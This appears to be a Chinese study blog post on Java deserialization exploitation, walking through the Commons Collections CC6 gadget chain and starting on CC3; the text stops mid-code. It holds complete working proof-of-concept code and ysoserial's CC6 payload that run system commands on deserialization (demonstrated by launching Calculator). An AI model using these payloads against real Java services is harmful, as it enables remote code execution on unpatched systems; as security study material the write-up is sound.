





+++
title= "Java中一些有意思的CC链"
slug= "interesting-cc-chains-in-java"
description= "CC6&&CC3&&CC2&&CC4"
date= "2025-09-02T21:33:45+08:00"
lastmod= "2025-09-02T21:33:45+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

本文会记录一些有意思的、必要学习的CC利用链，不过可能需要几天完工，慢慢学稳稳学

## CC6

### P牛版本

前面说到CC1受到jdk版本限制的原因，其实就是因为 `sun.reflect.annotation.AnnotationInvocationHandler#readObject`的逻辑变化了。  也就是说我们找一个可以替换的入口，后面不用变，即可成功利用，这就是CC6。不过在选择两个map的时候，肯定还是选择灵活性更高的`LazyMap#get`，现在找调用了这个方法的类，找到了是`org.apache.commons.collections.keyvalue.TiedMapEntry`

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package org.apache.commons.collections.keyvalue;

import java.io.Serializable;
import java.util.Map;
import org.apache.commons.collections.KeyValue;

public class TiedMapEntry implements Map.Entry, KeyValue, Serializable {
    private static final long serialVersionUID = -8453869361373831205L;
    private final Map map;
    private final Object key;

    public TiedMapEntry(Map map, Object key) {
        this.map = map;
        this.key = key;
    }

    public Object getKey() {
        return this.key;
    }

    public Object getValue() {
        return this.map.get(this.key);
    }

    public Object setValue(Object value) {
        if (value == this) {
            throw new IllegalArgumentException("Cannot set value to this map entry");
        } else {
            return this.map.put(this.key, value);
        }
    }

    public boolean equals(Object obj) {
        if (obj == this) {
            return true;
        } else if (!(obj instanceof Map.Entry)) {
            return false;
        } else {
            Map.Entry other = (Map.Entry)obj;
            Object value = this.getValue();
            return (this.key == null ? other.getKey() == null : this.key.equals(other.getKey())) && (value == null ? other.getValue() == null : value.equals(other.getValue()));
        }
    }

    public int hashCode() {
        Object value = this.getValue();
        return (this.getKey() == null ? 0 : this.getKey().hashCode()) ^ (value == null ? 0 : value.hashCode());
    }

    public String toString() {
        return this.getKey() + "=" + this.getValue();
    }
}
```

其中的调用如下

```bash
TiedMapEntry#hashcode
TiedMapEntry#getValue
LazyMap#get
```

接着找调用了hashcode的类，这个我们并不陌生，就是hashmap，其`readObject`方法就调用了hash方法，再者就可以调用到hashcode

```java
private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
        s.defaultReadObject();
        reinitialize();
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0)
            throw new InvalidObjectException("Illegal mappings count: " +
                                             mappings);
        else if (mappings > 0) { // (if zero, use defaults)
            // Size the table using given load factor only if within
            // range of 0.25...4.0
            float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);

            // Check Map.Entry[].class since it's the nearest public type to
            // what we're actually creating.
            SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
            @SuppressWarnings({"rawtypes","unchecked"})
            Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
            table = tab;

            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
        }
    }
    static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

所以说这条CC6，可以说是urldns+cc1，不过写的时候我还是遇到了问题

初始POC：

```java
package Base.Unserialize.CC;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections6{
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {
                new ConstantTransformer(1)
        };

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] { String.class, Class[].class },
                        new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke",
                        new Class[] { Object.class, Object[].class },
                        new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String[].class },
                        //new String[] { "calc" }),
                        new Object[]{new String[]{"open", "-a", "Calculator"}}),
                new ConstantTransformer(1)
        };

        Transformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "test2");
        Map expMap = new HashMap();
        expMap.put(tme, "test3");

        //替换恶意transformers
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);


        byte[] data =serialize(expMap);
//            String base64 = java.util.Base64.getEncoder().encodeToString(data);
//            System.out.println("序列化后的数据(base64): " + base64);

        Object o = unserialize(data);
    }
    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    public static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }

}
```



当这个key存在的时候，会直接返回，如果不存在再触发`transform`，如何解决这个问题呢，很简单，把这个key移除就好了

```java
package Base.Unserialize.CC;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections6{
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {
                new ConstantTransformer(1)
        };

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] { String.class, Class[].class },
                        new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke",
                        new Class[] { Object.class, Object[].class },
                        new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String[].class },
                        //new String[] { "calc" }),
                        new Object[]{new String[]{"open", "-a", "Calculator"}}),
                new ConstantTransformer(1)
        };

        Transformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "test2");
        Map expMap = new HashMap();
        expMap.put(tme, "test3");
        outerMap.remove("test2");
        
        //替换恶意transformers
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);


        byte[] data =serialize(expMap);
//            String base64 = java.util.Base64.getEncoder().encodeToString(data);
//            System.out.println("序列化后的数据(base64): " + base64);

        Object o = unserialize(data);
    }
    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    public static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }

}
```

完整的调用栈如下

```java
at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:155)
at org.apache.commons.collections.keyvalue.TiedMapEntry.getValue(TiedMapEntry.java:73)
at org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode(TiedMapEntry.java:120)
at java.util.HashMap.hash(HashMap.java:339)
at java.util.HashMap.readObject(HashMap.java:1413)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
at Base.Unserialize.CC.CommonsCollections6.unserialize(CommonsCollections6.java:67)
at Base.Unserialize.CC.CommonsCollections6.main(CommonsCollections6.java:54)
```

### Ysoserial版本

https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections6.java

```java
package ysoserial.payloads;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;

import java.io.Serializable;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

/*
	Gadget chain:
	    java.io.ObjectInputStream.readObject()
            java.util.HashSet.readObject()
                java.util.HashMap.put()
                java.util.HashMap.hash()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections.map.LazyMap.get()
                            org.apache.commons.collections.functors.ChainedTransformer.transform()
                            org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()

    by @matthias_kaiser
*/
@SuppressWarnings({"rawtypes", "unchecked"})
@Dependencies({"commons-collections:commons-collections:3.1"})
@Authors({ Authors.MATTHIASKAISER })
public class CommonsCollections6 extends PayloadRunner implements ObjectPayload<Serializable> {

    public Serializable getObject(final String command) throws Exception {

        final String[] execArgs = new String[] { command };

        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, execArgs),
                new ConstantTransformer(1) };

        Transformer transformerChain = new ChainedTransformer(transformers);

        final Map innerMap = new HashMap();

        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

        HashSet map = new HashSet(1);
        map.add("foo");
        Field f = null;
        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f = HashSet.class.getDeclaredField("backingMap");
        }

        Reflections.setAccessible(f);
        HashMap innimpl = (HashMap) f.get(map);

        Field f2 = null;
        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }

        Reflections.setAccessible(f2);
        Object[] array = (Object[]) f2.get(innimpl);

        Object node = array[0];
        if(node == null){
            node = array[1];
        }

        Field keyField = null;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }

        Reflections.setAccessible(keyField);
        keyField.set(node, entry);

        return map;

    }

    public static void main(final String[] args) throws Exception {
        PayloadRunner.run(CommonsCollections6.class, args);
    }
}
```

可以看到很明显的不同是他的入口是`HashSet#readObject`再到hashmap里面的，仅此而已，作为小白我也不知道优点是什么，说的是更难被静态检测出来。看看这个函数是怎么样的

```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in any hidden serialization magic
        s.defaultReadObject();

        // Read capacity and verify non-negative.
        int capacity = s.readInt();
        if (capacity < 0) {
            throw new InvalidObjectException("Illegal capacity: " +
                                             capacity);
        }

        // Read load factor and verify positive and non NaN.
        float loadFactor = s.readFloat();
        if (loadFactor <= 0 || Float.isNaN(loadFactor)) {
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        }

        // Read size and verify non-negative.
        int size = s.readInt();
        if (size < 0) {
            throw new InvalidObjectException("Illegal size: " +
                                             size);
        }
        // Set the capacity according to the size and load factor ensuring that
        // the HashMap is at least 25% full but clamping to maximum capacity.
        capacity = (int) Math.min(size * Math.min(1 / loadFactor, 4.0f),
                HashMap.MAXIMUM_CAPACITY);

        // Constructing the backing map will lazily create an array when the first element is
        // added, so check it before construction. Call HashMap.tableSizeFor to compute the
        // actual allocation size. Check Map.Entry[].class since it's the nearest public type to
        // what is actually created.

        SharedSecrets.getJavaOISAccess()
                     .checkArray(s, Map.Entry[].class, HashMap.tableSizeFor(capacity));

        // Create backing HashMap
        map = (((HashSet<?>)this) instanceof LinkedHashSet ?
               new LinkedHashMap<E,Object>(capacity, loadFactor) :
               new HashMap<E,Object>(capacity, loadFactor));

        // Read in all elements in the proper order.
        for (int i=0; i<size; i++) {
            @SuppressWarnings("unchecked")
                E e = (E) s.readObject();
            map.put(e, PRESENT);
        }
    }
```

最后的`map.put`可以打到`Hashmap#put`，就可以到`Hashmap#hash`后面就一样了，照着改改自己写一个POC

```java
package Base.Unserialize.CC;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class CommonsCollections6Better {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {
                new ConstantTransformer(1)
        };

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] { String.class, Class[].class },
                        new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke",
                        new Class[] { Object.class, Object[].class },
                        new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String[].class },
                        new Object[]{new String[]{"open", "-a", "Calculator"}}),
                new ConstantTransformer(1)
        };

        Transformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);

        TiedMapEntry entry = new TiedMapEntry(outerMap, "foo");

        HashSet<Object> hashSet = new HashSet<Object>();
        hashSet.add(entry);
        
        outerMap.remove("foo");
        Field transformersField = ChainedTransformer.class.getDeclaredField("iTransformers");
        transformersField.setAccessible(true);
        transformersField.set(chainedTransformer, transformers);

        byte[] data = serialize(hashSet);
        unserialize(data);
    }

    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    public static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```

完整调用栈如下

```
at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:150)
at org.apache.commons.collections.keyvalue.TiedMapEntry.getValue(TiedMapEntry.java:73)
at org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode(TiedMapEntry.java:120)
at java.util.HashMap.hash(HashMap.java:339)
at java.util.HashMap.put(HashMap.java:612)
at java.util.HashSet.readObject(HashSet.java:342)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
at Base.Unserialize.CC.CommonsCollections6Better.unserialize(CommonsCollections6Better.java:64)
at Base.Unserialize.CC.CommonsCollections6Better.main(CommonsCollections6Better.java:50)
```

## CC3

### P牛版本

昨天学习了Java中加载字节码的⼀些⽅法，其中介绍了`TemplatesImpl` 。 `TemplatesImp` 是⼀个可以加载字节码的类，通过调⽤其`newTransformer()`⽅法，即可执⾏这段字节码的类构造器。 那么，我们是否可以在反序列化漏洞中，利⽤这个特性来执⾏任意代码呢？ 我们先回忆⼀下CommonsCollections1，可以⽤来利⽤TransformedMap执⾏任意Java⽅法：

```java
package Base.Unserialize.CC;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;


public class CommonCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String[].class},
                        new Object[]
                                {new String[]{"open","-a","Calculator"}}),
        };
        Transformer transformerChain = new
                ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        outerMap.put("test", "xxxx");
    }
}
```

加载字节码的时候又有这样的demo

```java
package Base.Unserialize.Base;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import java.util.Base64;
import static ysoserial.payloads.util.Reflections.setFieldValue;

public class Test {
    public static void main(String[] args) throws Exception {
